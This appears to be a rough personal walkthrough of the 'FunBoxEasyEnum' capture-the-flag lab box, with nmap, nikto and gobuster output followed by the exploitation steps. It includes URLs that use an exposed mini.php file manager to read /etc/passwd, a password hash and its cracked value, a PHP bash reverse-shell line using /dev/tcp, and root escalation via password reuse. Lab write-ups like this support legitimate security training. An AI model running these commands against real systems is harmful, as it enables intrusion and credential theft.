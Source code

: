 Name: FunBoxEasyEnum
Date: 03/05/2022
Difficulty: Easy
Description: Don't hesitate Enumerate
Better Description:  
Goals: 
Learnt: 

## Recon

```bash
ping -c 3 192.168.55.132                  
PING 192.168.55.132 (192.168.55.132) 56(84) bytes of data.
64 bytes from 192.168.55.132: icmp_seq=1 TTL=63 time=38.5 ms
64 bytes from 192.168.55.132: icmp_seq=2 TTL=63 time=36.2 ms
64 bytes from 192.168.55.132: icmp_seq=3 TTL=63 time=61.8 ms

--- 192.168.55.132 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 36.196/45.480/61.750/11.542 ms

nmap -F 192.168.55.132    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 08:54 BST
Nmap scan report for 192.168.55.132
Host is up (0.064s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.36 second

nmap -sC -sV -T 4 -p- 192.168.55.132
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 08:54 BST
Warning: 192.168.55.132 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.55.132
Host is up (0.043s latency).
Not shown: 65504 closed tcp ports (conn-refused), 29 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 291.88 seconds

nikto -h 192.168.55.132                      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.55.132
+ Target Hostname:    192.168.55.132
+ Target Port:        80
+ Start Time:         2022-05-03 09:17:40 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5af9903d91639, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 8073 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2022-05-03 09:25:55 (GMT1) (495 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Default credentials for phpmyadmin did not work, but produce this error exposing mysql server.

```php
mysqli_real_connect(): (HY000/1698): Access denied for user 'root'@'localhost'
```


```bash

gobuster dir -u http://192.168.55.132/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.55.132/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/03 10:00:25 Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 321] [--> http://192.168.55.132/javascript/]
/mini.php             (Status: 200) [Size: 3828]                                       
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.55.132/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]                                        
                                                                                       
===============================================================
2022/05/03 10:38:51 Finished
===============================================================

```
Mini.php allow uploads tried uploading pentest monkey php reverse shell.
I also is a file system under /var/

![mini](Screenshots/miniphp.png)

While thinking I how and why stuff executes on this box:
Chmod is weird.
Replace mini.php with reverse shell or better add a line. It seems like the only thing that can be executed. See ## Foothold



/var/www/local.txt for first flag
You can also go to the '/' directory

http://192.168.64.132/mini.php?filesrc=//etc/passwd&path=//etc
```
# weird hash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```
http://192.168.64.132/mini.php?filesrc=//etc/hosts&path=//etc
funbox7 is running on 127.0.1.1



## Foothold

```php

exec("/bin/bash -c 'bash -i > /dev/tcp/$IP/$PORT 0>&1'");

```
Went back to the hash it is:
![hc](Screenshots/hashcat_examples.png)
hiphop

```bash
oracle@funbox7:/tmp$ mysql -u oracle -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'oracle'@'localhost' (using password: YES)
```
Enumerated again and found nothing. I learnt lot about the length of memory for recursive solving.
I was also possible to see this before as www-data

![rtpma](Screenshots/returntophpmyadmin.png)

Went to the webpage logged in nothing on the database.
Password reuse? Highest user is Karla

![root](bigk.png)
```bash
sudo su root 
cat /root/proof.txt
```
